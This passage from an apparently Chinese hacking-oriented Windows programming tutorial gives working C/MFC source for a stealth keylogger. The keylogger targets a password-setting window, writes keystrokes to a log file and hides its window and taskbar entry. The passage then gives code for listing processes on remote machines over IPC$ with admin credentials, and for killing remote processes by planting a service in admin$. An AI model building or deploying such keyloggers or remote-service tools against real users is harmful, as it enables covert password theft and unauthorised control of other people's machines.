DllExport void WINAPI InstallKeyBoardHook(DWORD dwThreadId);
DllExport void WINAPI UninstallKeyBoardHook();
```

3、接下来,在KeyBoardDLL.cpp文件中实现上面声明的两个函数。在编写以前,先解释一下用到的两个API: SetWindowsHookEx和UnhookWindowsHookEx

```
HHOOK SetWindowsHookEx(
int idHook,//安装钩子类型,如果是键盘钩子,值为WH_KEYBOARD
HOOKPROC lpfn,//钩子程序入口地址,为一个回调函数,
//本例中为LauncherHook,事件触发后自动执行
HINSTANCE hMod, //应用程序实例句柄,如果下面的参数dwThreadId由当前进程创建,则值必须为NULL
DWORD dwThreadId //钩子寄生的线程ID(下面会讲获得方法),如果想截获全局消息,则设置为0
);
```

与SetWindowsHookEx相反,UnhookWindowsHookEx的作用是卸载钩子,参数为钩子程序的句柄,其值由SetWindowsHookEx的返回值确定。解释完API后,就可以进行下面的操作了。在KeyBoardDLL.cpp文件中找到“CKeyBoardDLLApp theApp;”,在它下面添加下面的函数:

```
//安装钩子
DllExport void WINAPI InstallKeyBoardHook(DWORD dwThreadId)
{
Hook=(HHOOK)SetWindowsHookEx(WH_KEYBOARD,(HOOKPROC)LauncherHook,
theApp.m_hInstance, dwThreadId);
}
```

```
// 卸载钩子
DllExport void WINAPI UninstallKeyBoardHook()
{
    UnhookWindowsHookEx(Hook);
}
```

其中，Hook为HHOOK类型的全局变量，需在程序开始定义（HHOOK Hook;）。LauncherHook为一个回调函数。

```
LRESULT CALLBACK LauncherHook(int nCode,WPARAM wParam,LPARAM lParam)
{
    // 为防止其他使用钩子的程序出错，在截获到钩子后还得传递出去
    LRESULT Result=CallNextHookEx(Hook,nCode,wParam,lParam);
    if(nCode==HC_ACTION)
    {
        if(lParam & 0x80000000)
        {
            // 保存按键代码
            char c[1];
            c[0]=wParam;
            SaveLog(c);
        }
    }
    return Result;
}
```

其中，使用了一个自定义函数SaveLog，作用是把截获到的键盘消息保存为文件：

```
void SaveLog(char* c)
{
    CTime tm=CTime::GetCurrentTime(); //得到当前时间
    CString name;
    //生成C盘下的Key_月_日.log型的文件
    name.Format("c:\\Key_%d_%d.log",tm.GetMonth(),tm.GetDay());
    CFile file;
    if(!file.Open(name,CFile::modeReadWrite))
    {
        file.Open(name,CFile::modeCreate|CFile::modeReadWrite);
    }
    file.SeekToEnd(); //写指针定位到文件尾，既以追加方式写入
    file.Write(c,1); //写数据
    file.Close(); //文件关闭
}
```

上面使用MFC方式操作文件，如果你对C语言的fopen方式比较熟悉，可自行替换。这几个函数是从网上copy的，非常简单，仅做了少量修改。如果对上面的函数有不清楚的，请参考MSDN。

编译运行，在Debug文件夹下会生成KeyBoardDLL.dll、KeyBoardDLL.lib两个文件，连同KeyBoardDLL.h文件备份出来就可以应用在其它程序当中了。

#### 二、钩子的使用

我以制作截获更改用户密码的程序为例。程序要时刻监测系统的运行，当发现标题为“设置密码”的程序为前端窗口时，我们在上面写的键盘钩子开始起作用。而当其他窗口为前端窗口时，则卸载键盘钩子。很容易想到使用定时器来完成。为了防止钩子被多次安装，还得设置一个BOOL型成员变量，初始化为FALSE，如果钩子被安装，则改变其值为TRUE；被卸载，再把其值变为FALSE。好了，原理说到这儿，使用应用程序向导新建立一个单文档程序，工程名为GetUserPWD，在How would you like to use the MFC library? 中选择As a statically linked library。把上面3个文件copy到工程文件夹下。在工程-设置-Link中添加KeyBoardDLL.lib，把KeyBoardDLL.h导入工程中，在MainFrm.cpp中包含头文件KeyBoardDLL.h，使用类向导为CMainFrame类添加定时器消息映射（图4-1）。



图4-1

```
cpp
void CMainFrame::OnTimer(UINT nIDEvent)
{
    char szTitle[256] = {0};
    // 得到前端窗口句柄hWnd
    HWND hWnd = ::GetForegroundWindow();
    // 由hWnd得到窗口标题，保存在字符串szTitle中
    ::SendMessage(hWnd, WM_GETTEXT, 255, (long)szTitle);
    if(strcmp(szTitle, "设置密码") == 0) // 如果标题为“设置密码”执行以下操作
    {
        // bIsInstall 为 BOOL 型成员变量，表示钩子是否安装，在初始化时设为 FALSE (未安装)
        if(!bIsInstall)
        {
            DWORD dwProcessId = 0;
            // 安装钩子，传入"设置密码"窗口的线程ID。GetWindowThreadProcessId
            // 函数的作用是由窗口句柄获得窗口的线程ID
            InstallKeyBoardHook(::GetWindowThreadProcessId(hWnd, &dwProcessId));
            bIsInstall = TRUE;
        }
    }
    else
```

```
{
	// 卸载钩子，同时把钩子安装标志 bIsInstall 设为 FALSE
	UninstallKeyBoardHook();
	bIsInstall = FALSE;
}
CFrameWnd::OnTimer(nIDEvent);
}
```

另外，在初始化程序CMainFrame::OnCreate中设置定时器SetTimer(0,100,NULL); 为工程重载虚函数DestroyWindow（在ClassView中的CMainFrame上右键选Add Virtual Function，在弹出的窗口中选DestroyWindow），作用是在关闭应用程序时处理一些任务。对于本工程来说，下面两个任务需要在结束程序时执行：

```
// 杀死定时器KillTimer(0),
// 并卸载钩子:
UninstallKeyBoardHook();
```

作为一个键盘记录软件，当然不希望出现程序的窗口。在单文档程序中，使窗口不可见非常简单。只要在“PreCreateWindow(CREATESTRUCT& cs)”中改变窗口风格就可以了，如下：

```
BOOL CMainFrame::PreCreateWindow(CREATESTRUCT& cs)
{
	if( !CFrameWnd::PreCreateWindow(cs) )
		return FALSE;
	// TODO: Modify the Window class or styles here by modifying
	// the CREATESTRUCT cs
	// 使窗口不可见并且不出现在任务栏中
	cs.style=WS_POPUP;
	cs.dwExStyle |=WS_EX_TOOLWINDOW;
	return TRUE;
}
```

当然，如果你想记录所有的键盘输入，就可以不使用定时器消息，而直接在初始化程序时调用InstallKeyBoardHook(0)安装钩子，在程序结束时使用UninstallKeyBoardHook卸载钩子。还有一个问题，就是程序的结束，因为我们屏蔽了窗口和任务栏图标，所以只能用Ctrl+Alt+Del调出任务管理器结束了。如果你有兴趣，可以编写热键呼出功能，把它做成一个完整、实用的软件。部分源码可在http://www.diligencedalian.com/psbeyond/GetUserPWD.zip下载。

## 第5章 系统原理编程

## 5.1 NT系统进程知多少

本节内容参考了部分书籍和网上的一些资料，加上自己的一些理解，列举枚举本地/远程NT系统进程的的几种方法，希望对大家有所帮助。

Windows2000中有个工具Taskmgr.exe就可以比较详细的查看当前系统进程信息，但是那是Windows GUI程序，有时候是不是觉得命令行下的东西更方便呢？其实已经有不少命令行下的枚举系统进程的工具了，M$的Resource Kit中好象也有，但是你需要去了解他们是怎么实现的。如果我们自己动手做一个出来，是不是更有意思呢？

进程通常被定义为一个正在运行的程序的实例，它由两部分组成：

- 1. 操作系统用来管理进程的内核对象。内核对象也是系统用来存放关于进程的统计信息的地方。

- 2. 地址空间。它包含所有可执行模块或DLL模块的代码和数据，还包含动态内存分配的空间，如线程的堆栈和堆分配空间。

枚举系统进程的实现方法大概有四种，我们分别来看看，其中有一种可以用来枚举远程NT系统的进程，前提是有远程系统的管理员权限。

## 一、调用PSAPI函数枚举系统进程

M$的Windows NT开发小组开发了自己Process Status函数，包含在PSAPI.DLL文件中，这些函数只能在高于NT4.0以后的版本中使用。PSAPI一共有14个函数（实际PSAPI.DLL输出函数有19个，但其中有5个函数有两个版本，分别是ANSI和Unicode版本），通过调用这些函数，我们可以很方便的取得系统进程的所有信息，例如进程名、进程ID、父进程ID、进程优先级、映射到进程空间的模块列表等等。为了方便起见，以下的例子程序只获取进程的名字和ID。

简单的程序如下：

```
c
/***********************************************
Module:ps.c
说明：调用PSAPI函数枚举系统进程名和ID，Only for NT/2000
***********************************************/
#include <windows.h>
#include <stdio.h>
#include "psapi.h"
#pragma comment(lib,"psapi.lib")

void PrintProcessNameAndID( DWORD processID )
{
    char szProcessName[MAX_PATH] = "unknown";
    //取得进程的句柄
```

## 基于PSAPI的进程枚举

```c
HANDLE hProcess = OpenProcess( PROCESS_QUERY_INFORMATION |
PROCESS_VM_READ,
FALSE, processID );
// 取得进程名称
if ( hProcess )
{
    HMODULE hMod;
    DWORD cbNeeded;
    if ( EnumProcessModules( hProcess, &hMod, sizeof(hMod), &cbNeeded) )
        GetModuleBaseName(hProcess, hMod, szProcessName, sizeof(szProcessName) );
}
// 回显进程名称和ID
printf( "\n%-20s%-20d", szProcessName, processID );
CloseHandle( hProcess );
}

void main( )
{
    DWORD aProcesses[1024], cbNeeded, cProcesses;
    unsigned int i;
    // 枚举系统进程ID 列表
    if ( !EnumProcesses( aProcesses, sizeof(aProcesses), &cbNeeded ) )
        return;
    // Calculate how many process identifiers were returned.
    // 计算进程数量
    cProcesses = cbNeeded / sizeof(DWORD);
    // 输出每个进程的名称和ID
    for ( i = 0; i < cProcesses; i++ )
        PrintProcessNameAndID( aProcesses[i] );
    return;
}
```

基于PSAPI，shotgun写了个比较完整的命令行下内存进程/模块查看器，可以显示内存中所有的进程及进程调用的所有模块文件（DLL），可以用来协助程序、DLL的调试，也可以用来查找DLL木马和后门。有兴趣的读者可以从http://www.patching.net/shotgun/ps.zip下载，压缩包包含C++源代码。

## 二、调用ToolHelp API枚举本地系统进程

在前面提到的PSAPI函数只能枚举NT系统的进程，在Windows 9x环境下我们可以通过调用ToolHelp API函数来达到枚举系统进程的目的。M$的Windows NT开发小组因为不喜欢ToolHelp函数，所以没有将这些函数添加给Windows NT，所以他们开发了自己的Process Status函数，就是前面提到的PSAPI了。但是后来M$已经将ToolHelp函数添加给了Windows 2000。ToolHelp共有12个函数，通过调用这些函数可以方便的取得本地系统进程的详细信息，以下这个简单的例子只调用了三个函数，获取我们所需要系统进程名字和进程ID。程序如下：

```c
/************************************************************
Module:ps.c
说明：调用ToolHelp 函数枚举本地系统进程名和ID，Only for 9x/2000
************************************************************/
#include <windows.h>
#include <tlhelp32.h>
#include <stdio.h>
int main()
{
    HANDLE hProcessSnap = NULL;
    PROCESSENTRY32 pe32 = {0};
    hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hProcessSnap == (HANDLE)-1)
    {
        printf("\nCreateToolhelp32Snapshot() failed:%d",GetLastError());
        return 1;
    }
    pe32.dwSize = sizeof(PROCESSENTRY32);
    printf("\nProcessName ProcessID");
    if (Process32First(hProcessSnap, &pe32))
    {
        do
        {
            printf("\n%-20s%d",pe32.szExeFile,pe32.th32ProcessID);
        }
        while (Process32Next(hProcessSnap, &pe32));
    }
    else
    {
        printf("\nProcess32First() failed:%d",GetLastError());
    }
    CloseHandle (hProcessSnap);
    return 0;
}
```

## 三、调用NTDLL.DLL中未公开API枚举本地系统进程

前面说的是调用MS公开的API来枚举系统进程，在NTDLL.DLL中其实有一个未公开API，也可以用来枚举系统进程。此方法是从别处看来的，出处记不清楚了，好像是pwdump2 中的源代码中的一部分吧。

那个未公开API就是NtQuerySystemInformation，使用方法如下，以下代码是从pwdump2中修改了一点点而来的：

```c
///////////////////////
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

typedef unsigned long NTSTATUS;

typedef unsigned short USHORT;
typedef unsigned long ULONG;
typedef unsigned long DWORD;
typedef long LONG;

typedef __int64 LONGLONG;

typedef struct {
    USHORT Length;
    USHORT MaxLen;
    USHORT *Buffer;
} UNICODE_STRING;

struct process_info {
    ULONG NextEntryDelta;
    ULONG ThreadCount;
    ULONG Reserved1[6];
    LARGE_INTEGER CreateTime;
    LARGE_INTEGER UserTime;
    LARGE_INTEGER KernelTime;
    UNICODE_STRING ProcessName;
    ULONG BasePriority;
    ULONG ProcessId;
};

typedef NTSTATUS (__stdcall *NtQuerySystemInformation1)(
    IN ULONG SysInfoClass,
    IN OUT PVOID SystemInformation,
    IN ULONG SystemInformationLength,
    OUT PULONG RetLen
);

int main()
{
    HINSTANCE hNtDll;
    NtQuerySystemInformation1 NtQuerySystemInformation;
    NTSTATUS rc;
    ULONG ulNeed = 0;
    void *buf = NULL;
    size_t len = 0;
    struct process_info *p;
    int done;

    hNtDll = LoadLibrary("NTDLL");
    if (!hNtDll)
        return 0;
    NtQuerySystemInformation = (NtQuerySystemInformation1)GetProcAddress(hNtDll,
    "NtQuerySystemInformation");
    if (!NtQuerySystemInformation)
        return 0;

    do {
        len += 0x1000;
        buf = realloc(buf, len);
        if (!buf)
            return 0;

        rc = NtQuerySystemInformation (5, buf, len, &ulNeed);
    } while (rc == 0xc0000004); // STATUS_INFO_LEN_MISMATCH

    if (rc < 0) {
        free (buf);
        return 0;
    }

    printf("\nProcessName ProcessID");

    p = (struct process_info *)buf;
    done = 0;

    while (!done) {
        if ((p->ProcessName.Buffer != 0))
        {
            printf("\n%-20S%d",p->ProcessName.Buffer,p->ProcessId);
        }
        done = p->NextEntryDelta == 0;
        p = (struct process_info *)(((char *)p) + p->NextEntryDelta);
    }
    free (buf);
    FreeLibrary (hNtDll);
    return 0;
}
```

## 四、从PDH中取得本地/远程系统进程信息

前面说的三种方法都只能枚举本地的系统进程，如何枚举远程系统的进程呢？目前我只知道从PDH中取得进程信息。

先简单的说说PDH是什么东西。PDH是英文Performance Data Helper的缩写，Windows NT一直在更新这个称为Performance Data的数据库，这个数据库包含了大量的信息，例如CPU使用率，内存使用率，系统进程信息等等一大堆有用的信息，可以通过注册表函数来访问。注意，Windows 9x中并没有配置这个数据库。但是，这个数据库中的信息布局很复杂，很多人并不愿意使用它，包括我。而且刚开始的时候，它也没有自己特定的函数，只能通过现有的注册表函数来操作。后来，为了使该数据库的使用变得容易，MS开发了一组Performance Data Helper函数，包含在PDH.DLL文件中。

Windows 2000默认是允许远程注册表操作的，所以我们就可以通过连接远程系统的注册表，从它的PDH中取得我们所需要的系统进程信息了，当然这需要远程系统的Admin权限。

下面所举的例子是直接利用注册表函数来从本地/远程系统的PDH数据库中取得我们所需要的数据的，我们并没有利用PDH API。

程序代码如下：

```c
/****
Module:ps.c
Author:mikeblas@nwlink.com
Modify:ey4s<ey4s@21cn.com>
Http://eyas.3322.net
Date:2001/6/23
****************************************************************/
#include <stdio.h>
#include <windows.h>
#include <Winnetwk.h>

#define INITIAL_SIZE 51200
#define EXTEND_SIZE 12800
#define REGKEY_PERF "software\microsoft\windows nt\currentversion\perflib"
#define REGSUBKEY_COUNTERS "Counters"
#define PROCESS_COUNTER "process"
#define PROCESSID_COUNTER "id process"
#define UNKNOWN_TASK "unknown"
#define MaxProcessNum 52//最大进程数量

#pragma comment(lib,"mpr.lib")

typedef struct ProcessInfo
{
    char ProcessName[128];
    DWORD dwProcessID;
}pi;

void banner();
int ConnIPC(char *,char *,char *);
DWORD GetProcessInfo(pi *,char *,char *,char *);

int main(int argc,char **argv)
{
    int i,iRet;
    pi TaskList[MaxProcessNum];
    banner();
    if(argc==1)
    {
        iRet=GetProcessInfo(TaskList,NULL,NULL,NULL);
        printf("\nProcess Info for [LOCAL]:");
    }
    else if(argc==4)
    {
        iRet=GetProcessInfo(TaskList,argv[1],argv[2],argv[3]);
        printf("\nProcess Info for [%s]:",argv[1]);
    }
    else
    {
        printf("\nUsage:%s <ip> <UserName> <Pass>",argv[0]);
        return 1;
    }
    if(iRet>0)
        for(i=0,printf("\nProcessName ProcessID");
            i<iRet;
            printf("\n%-20s %d",TaskList[i].ProcessName,TaskList[i].dwProcessID),i++);
    return 0;
}

DWORD GetProcessInfo(pi *ProList,char *ip,char *user,char *pass)
{
    DWORD rc,dwType,dwSize,i,dwProcessIdTitle,dwProcessIdCounter,dwRet=-1;
    HKEY hKeyNames;
    LPSTR buf = NULL,p,p2;
    CHAR szSubKey[1024],szProcessName[MAX_PATH];
    PPERF_DATA_BLOCK pPerf;
    PPERF_OBJECT_TYPE pObj;
    PPERF_INSTANCE_DEFINITION pInst;
    PPERF_COUNTER_BLOCK pCounter;
    PPERF_COUNTER_DEFINITION pCounterDef;
    HKEY ghPerfKey =NULL, // get perf data from this key
    ghMachineKey = NULL; // get title index from this key
    BOOL bRemote=FALSE;
    //
    // Look for the list of counters. Always use the neutral
    // English version, regardless of the local language. We
    // are looking for some particular keys, and we are always
    // going to do our looking in English. We are not going
    // to show the user the counter names, so there is no need
    // to go find the corresponding name in the local language.
    //
    _try
    {
        if((ip)&&(user)&&(pass))
        {
            if(ConnIPC(ip,user,pass)!=0)
            {
                printf("\nConnect to %s failed.",ip);
                __leave;
            }
            else
                bRemote=TRUE;
        }
        // 连接本地 or 远程注册表
        if(RegConnectRegistry(ip,HKEY_PERFORMANCE_DATA,
            &ghPerfKey)!=ERROR_SUCCESS)
        {
            printf("\nRegConnectRegistry() 1 failed:%d",GetLastError());
            __leave;
        }
        if(RegConnectRegistry(ip,HKEY_LOCAL_MACHINE,
            &ghMachineKey)!=ERROR_SUCCESS)
        {
            printf("\nRegConnectRegistry() 2 failed:%d",GetLastError());
            __leave;
        }

        sprintf( szSubKey, "%s\%03x", REGKEY_PERF,MAKELANGID( LANG_ENGLISH,
            SUBLANG_NEUTRAL));
        if(RegOpenKeyEx(ghMachineKey,szSubKey,0,KEY_READ,&hKeyNames)!=ERROR_SUCCESS)
            __leave;
        // 从counter names 取得需要的缓冲区大小
        if(RegQueryValueEx(hKeyNames,REGSUBKEY_COUNTERS,NULL,&dwType,NULL,&dwSize)!=
            ERROR_SUCCESS)
            __leave;
        // 分配内存
        buf = (LPSTR) malloc( dwSize );
        if (buf == NULL)
            __leave;
        memset( buf, 0, dwSize );

        // read the counter names from the registry
        if(RegQueryValueEx(ghPerfKey,REGSUBKEY_COUNTERS,NULL,&dwType,(LPBYTE) buf,&dwSize)!=
            ERROR_SUCCESS)
            __leave;
        //
        // now loop thru the counter names looking for the following counters:
        //
        // 1. "Process" process name.
        // 2. "ID Process" process id
        //
        // the buffer contains multiple null terminated strings and then
        // finally null terminated at the end. the strings are in pairs of
        // counter number and counter name.
        //
        p = buf;
        while (*p)
        {
            if (p>buf)
                for( p2=p-2; isdigit(*p2); p2--);
            if (stricmp(p, PROCESS_COUNTER) == 0)
            {
                // look backwards for the counter number
                for( p2=p-2; isdigit(*p2); p2--);
                strcpy( szSubKey, p2+1 );
            }
            else if (stricmp(p, PROCESSID_COUNTER) == 0)
            {
                // look backwards for the counter number
                for( p2=p-2; isdigit(*p2); p2--);
                dwProcessIdTitle = atol( p2+1 );
            }
            // next string
            p += (strlen(p) + 1);
        }
        // free the counter names buffer
        free( buf);
```

```
// allocate the initial buffer for the performance data
dwSize = INITIAL_SIZE;
buf = (LPSTR) malloc( dwSize );

while (TRUE)
{
if (buf == NULL)
__leave;
memset( buf, 0, dwSize );
rc=RegQueryValueEx(ghPerfKey,szSubKey,NULL,&dwType,(LPBYTE) buf,&dwSize);
pPerf = (PPERF_DATA_BLOCK) buf;
// check for success and valid perf data block signature
if ((rc == ERROR_SUCCESS) &&
(dwSize > 0) &&
(pPerf)->Signature[0] == (WCHAR)'P' &&
(pPerf)->Signature[1] == (WCHAR)'E' &&
(pPerf)->Signature[2] == (WCHAR)'R' &&
(pPerf)->Signature[3] == (WCHAR)'F' )
break;
// if buffer is not big enough, reallocate and try again
if (rc == ERROR_MORE_DATA)
{
dwSize += EXTEND_SIZE;
buf = (LPSTR) realloc( buf, dwSize );
}
else __leave;
}
// set the perf_object_type pointer
pObj = (PPERF_OBJECT_TYPE) ((DWORD)pPerf + pPerf->HeaderLength);
//loop thru the performance counter definition records looking
//for the process id counter and then save its offset
pCounterDef = (PPERF_COUNTER_DEFINITION) ((DWORD)pObj + pObj->HeaderLength);
for (i=0; i<(DWORD)pObj->NumCounters; i++)
{
if (pCounterDef->CounterNameTitleIndex == dwProcessIdTitle)
{
dwProcessIdCounter = pCounterDef->CounterOffset;
break;
}
pCounterDef++;
}

pInst = (PPERF_INSTANCE_DEFINITION) ((DWORD)pObj + pObj->DefinitionLength);
// loop thru the performance instance data extracting each process name
// and process id
for (i=0; i < (DWORD)pObj->NumInstances-1 && i<MaxProcessNum; i++)
{
// pointer to the process name
p = (LPSTR) ((DWORD)pInst + pInst->NameOffset);
// convert it to ascii
rc = WideCharToMultiByte( CP_ACP,0,(LPCWSTR)p,-1,szProcessName,sizeof(szProcessName),NULL,
NULL);
// if we cant convert the string then use a default value
if (!rc) strcpy( ProList[i].ProcessName, UNKNOWN_TASK );
else strncpy(ProList[i].ProcessName, szProcessName,sizeof(ProList[i].ProcessName)-1);
// get the process id
pCounter = (PPERF_COUNTER_BLOCK) ((DWORD)pInst + pInst->ByteLength);
ProList[i].dwProcessID = *((LPDWORD) ((DWORD)pCounter + dwProcessIdCounter));
// next process
pInst = (PPERF_INSTANCE_DEFINITION) ((DWORD)pCounter + pCounter->ByteLength);
}
dwRet=i;
}//end of try
__finally
{
if (buf) free( buf );
RegCloseKey( hKeyNames );
RegCloseKey( HKEY_PERFORMANCE_DATA );
if(bRemote)
{
char tmp[52],tmp2[96];
strncpy(tmp,ip,sizeof(tmp)-1);
wsprintf(tmp2,"\\%s\\ipc$",tmp);
WNetCancelConnection2(tmp2,CONNECT_UPDATE_PROFILE,TRUE);
}
}
return dwRet;
}
///////////////////////////////////////////////////////////////////////////////////////////////////
int ConnIPC(char *RemoteName,char *User,char *Pass)
{
NETRESOURCE nr;
char RN[50]="";

strcat(RN,RemoteName,sizeof(RN)-11);
strcat(RN,"\\ipc$");

nr.dwType=RESOURCETYPE_ANY;
nr.lpLocalName=NULL;
nr.lpRemoteName=RN;
nr.lpProvider=NULL;

if(WNetAddConnection2(&nr,Pass,User,FALSE)==NO_ERROR)
return 0;
else
return 1;
}
///////////////////////////////////////////////////////////////////////////////////////////////////
void banner()
{
printf("\nPsList ==>Local and Remote process list" "\nPower by ey4s<ey4s@21cn.com>" "\nhttp://eyas.3322.net" "\n2001/6/22\n"); } ////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
程序在Windows2000、VC++6.0环境下编译，运行良好。注意，远程机器要允许IPC连接和远程操作注册表才可以，并且需要Admin权限，编译好的程序在我的主页http://eyas.3322.net有下载。

## 5.2 NT系统进程随意杀

前面我们说了四种查看本地、远程系统进程的办法，接下来我们来研究一下怎么杀掉本地、远程NT系统的进程吧。

杀掉本地进程其实很简单，取得进程ID后，调用OpenProcess函数打开进程句柄，然后调用TerminateProcess函数就可以杀掉进程了。有些情况下并不能直接打开进程句柄，例如WINLOGON等系统进程，因为权限不够。这个时候我们就得先提升自己的进程的权限了。

提升权限过程也不复杂，先调用GetCurrentProcess函数取得当前进程的句柄，然后调用OpenProcessToken打开当前进程的访问令牌，接着调用LookupPrivilegeValue函数取得你想提升的权限的值，最后调用AdjustTokenPrivileges函数给当前进程的访问令牌增加权限就可以了。一般有了SeDebugPrivilege特权后，就可以杀掉除Idle外的所有进程了。

那如何杀掉远程进程呢？说起来有点复杂，但其实也不难。

- <1>与远程系统建立IPC连接
- <2>在远程系统的系统目录admin$\system32中写入一个文件killsrv.exe
- <3>调用函数OpenSCManager打开远程系统的Service Control Manager[SCM]
- <4>调用函数CreateService在远程系统创建一个服务，服务指向的程序是在<2>中写入的程序killsrv.exe
- <5>调用函数StartService启动刚才创建的服务，把想杀掉的进程的ID作为参数传递给它
- <6>服务启动后，killsrv.exe运行，杀掉进程
- <7>清场

这样看来，我们需要两个程序了。Killsrv.exe的源代码如下：

```
/********************************************************************
Module:Killsrv.c
Date:2001/4/27
Author:ey4s<ey4s@21cn.com>
Http://ey4s.126.com
********************************************************************/
#include <stdio.h>
#include <windows.h>
#include "function.c"
#define ServiceName "PSKILL"

SERVICE_STATUS_HANDLE ssh;
SERVICE_STATUS ss;
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
void ServiceStopped(void)
{
ss.dwServiceType=SERVICE_WIN32_OWN_PROCESS|SERVICE_INTERACTIVE_PROCESS;
ss.dwCurrentState=SERVICE_STOPPED;
ss.dwControlsAccepted=SERVICE_ACCEPT_STOP;
ss.dwWin32ExitCode=NO_ERROR;
ss.dwCheckPoint=0;
ss.dwWaitHint=0;
SetServiceStatus(ssh,&ss);
return;
}
//////////////////////////////////////////////////////////////////////
void ServicePaused(void)
{
ss.dwServiceType=SERVICE_WIN32_OWN_PROCESS|SERVICE_INTERACTIVE_PROCESS;
ss.dwCurrentState=SERVICE_PAUSED;
ss.dwControlsAccepted=SERVICE_ACCEPT_STOP;
ss.dwWin32ExitCode=NO_ERROR;
ss.dwCheckPoint=0;
ss.dwWaitHint=0;
SetServiceStatus(ssh,&ss);
return;
}
void ServiceRunning(void)
{
ss.dwServiceType=SERVICE_WIN32_OWN_PROCESS|SERVICE_INTERACTIVE_PROCESS;
ss.dwCurrentState=SERVICE_RUNNING;
ss.dwControlsAccepted=SERVICE_ACCEPT_STOP;
ss.dwWin32ExitCode=NO_ERROR;
ss.dwCheckPoint=0;
ss.dwWaitHint=0;
SetServiceStatus(ssh,&ss);
return;
}
//////////////////////////////////////////////////////////////////////
void WINAPI servier_ctrl(DWORD Opcode)//服务控制程序
{
switch(Opcode)
{
case SERVICE_CONTROL_STOP://停止Service
ServiceStopped();
break;
case SERVICE_CONTROL_INTERROGATE:
SetServiceStatus(ssh,&ss);
break;
}
return;
}
//////////////////////////////////////////////////////////////////////
//杀进程成功设置服务状态为SERVICE_STOPPED
//失败设置服务状态为SERVICE_PAUSED
//
void WINAPI ServiceMain(DWORD dwArgc,LPTSTR *lpszArgv)
{
ssh=RegisterServiceCtrlHandler(ServiceName,servier_ctrl);
if(!ssh)
{
ServicePaused();
return;
}
ServiceRunning();
Sleep(100);
// 注意，argv[0]为此程序名，argv[1]为pskill,参数需要递增 1
//argv[2]=target,argv[3]=user,argv[4]=pwd,argv[5]=pid
if(KillPS(atoi(lpszArgv[5])))
ServiceStopped();
else
ServicePaused();
return;
}
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
void main(DWORD dwArgc,LPTSTR *lpszArgv)
{
SERVICE_TABLE_ENTRY ste[2];
ste[0].lpServiceName=ServiceName;
ste[0].lpServiceProc=ServiceMain;
ste[1].lpServiceName=NULL;
ste[1].lpServiceProc=NULL;
StartServiceCtrlDispatcher(ste);
return;
}
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
```

function.c中有两个函数，一个是提升权限的，一个是提供进程ID,杀进程的。代码如下:

```
/********************************************************************
Module:function.c
Date:2001/4/28
Author:ey4s<ey4s@21cn.com>
Http://ey4s.126.com
********************************************************************/
#include <windows.h>
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
BOOL SetPrivilege(HANDLE hToken,LPCSTR lpszPrivilege,BOOL bEnablePrivilege)
{
TOKEN_PRIVILEGES tp;
LUID luid;

if(!LookupPrivilegeValue(NULL,lpszPrivilege,&luid))
{
printf("\nLookupPrivilegeValue error:%d", GetLastError() );
return FALSE;
}
tp.PrivilegeCount = 1;
tp.Privileges[0].Luid = luid;
if (bEnablePrivilege)
tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
else
tp.Privileges[0].Attributes = 0;
// Enable the privilege or disable all privileges.
AdjustTokenPrivileges(
	hToken,
	FALSE,
	&tp,
	sizeof(TOKEN_PRIVILEGES),
	(PTOKEN_PRIVILEGES) NULL,
	(PDWORD) NULL);
// Call GetLastError to determine whether the function succeeded.
if (GetLastError() != ERROR_SUCCESS)
{
printf("AdjustTokenPrivileges failed: %u\n", GetLastError() );
return FALSE;
}
return TRUE;
}
////////////////////////////////////////////////////////////////
BOOL KillPS(DWORD id)
{
HANDLE hProcess=NULL,hProcessToken=NULL;
BOOL IsKilled=FALSE,bRet=FALSE;
__try
{
if(!OpenProcessToken(GetCurrentProcess(),TOKEN_ALL_ACCESS,&hProcessToken))
{
printf("\nOpen Current Process Token failed:%d",GetLastError());
__leave;
}
//printf("\nOpen Current Process Token ok!");
if(!SetPrivilege(hProcessToken,SE_DEBUG_NAME,TRUE))
{
__leave;
}
printf("\nSetPrivilege ok!");

if((hProcess=OpenProcess(PROCESS_ALL_ACCESS,FALSE,id))==NULL)
{
printf("\nOpen Process %d failed:%d",id,GetLastError());
__leave;
}
//printf("\nOpen Process %d ok!",id);
if(!TerminateProcess(hProcess,1))
```

```
{
printf("\nTerminateProcess failed:%d",GetLastError());
__leave;
}
IsKilled=TRUE;
}
__finally
{
if(hProcessToken!=NULL) CloseHandle(hProcessToken);
if(hProcess!=NULL) CloseHandle(hProcess);
}
return(IsKilled);
}
```

